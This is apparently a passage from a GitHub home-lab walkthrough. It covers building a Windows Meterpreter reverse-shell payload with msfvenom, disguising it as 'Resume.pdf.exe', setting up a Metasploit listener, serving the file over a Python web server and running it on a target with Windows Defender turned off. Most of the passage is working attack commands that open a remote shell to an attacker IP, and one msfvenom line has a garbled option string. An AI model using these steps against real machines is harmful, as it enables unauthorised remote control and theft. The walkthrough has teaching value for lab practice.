 ## Step 6: Creating malware using msfvenom
**Generate Malware:** In a Kali terminal, execute the following command to create a reverse shell payload:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcplhost=<Attacker_IP> lport=4444 -f exe -o Resume.pdf.exe
```
  <img width="512" height="142" alt="malware" src="https://github.com/user-attachments/assets/1152858e-6c57-4f5e-a80e-1273af4bfe18" />

## Step 7: Setting Up a Metasploit Listener
1. Open the Metasploit console by typing:
  ```bash
  msfconsole
  ```
  <img width="457" height="512" alt="metasploit" src="https://github.com/user-attachments/assets/45a98296-978b-41c8-8861-45285c9ee34b" />

2. Execute the following commands to configure the listener:
    ```bash
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST <Attacker_IP>
    set LPORT 4444
    exploit
    ```
  <img width="434" height="512" alt="sploit_config" src="https://github.com/user-attachments/assets/4e19f4b1-2d5a-4c26-a6ab-cb732c6d857f" />

3. To deploy Malware in a separate terminal, set up a Python web server in the directory where the malware was saved. It will allow the Windows machine to download it:
  ```bash
  python3 -m http.server 9999
  ```
  <img width="512" height="174" alt="python_Server" src="https://github.com/user-attachments/assets/88fe80fd-a0f7-465d-9e4a-bb731688d9b0" />

## Step 8: Executing Malware on the Windows Machine
1. **Disable Windows Defender:** Before execution, disable Windows Defender's real-time protection on the Windows machine, as this common malware is easily detected.
2. **Execute Malware:**
   - On the Windows machine, open a browser and navigate to the IP address of the Python web server (e.g., `http://<Attacker_IP>:9999`) to download the malware.
   - Locate and execute the downloaded `Resume.pdf.exe` file.
3. **Verify Connection:** To confirm the reverse shell, open Command Prompt as an administrator on the Windows machine and run: 
  ```cmd
  netstat -anob
  ```
<img width="386" height="101" alt="win_cmd1" src="https://github.com/user-attachments/assets/ae732bcd-627d-4160-bd16-1a2c0f8d47b9" />
<img width="512" height="42" alt="win_cmd2" src="https://github.com/user-attachments/assets/08f56326-3857-48ae-bfee-8633d051f45a" />
